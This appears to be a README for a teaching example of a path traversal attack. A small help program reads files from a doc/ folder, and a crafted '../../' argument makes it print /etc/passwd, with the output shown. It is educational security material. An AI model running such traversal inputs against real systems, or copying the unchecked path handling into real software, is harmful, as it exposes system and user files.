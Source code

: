 # Path Traversal Attack

The example can be built with make.
```
$ make 
```

In a normal use case, files are read from the `doc/` folder and displayed:
```
 ./build/help introduction.md
Load data from: doc/introduction.md
# Introduction

This is the home page for a help system.

This **page is currently being edited**, 
so the following applies: Help yourself!!
...
```

With the help of a **path traversal attack** we can break out of the `doc/` folder and read arbitrary files:
```
$ ./build/help ../../../../../../../../../../../../etc/passwd
Load data from: doc/../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Access to the file system is only restricted by the permissions 
that the user who starts the application has.


## References
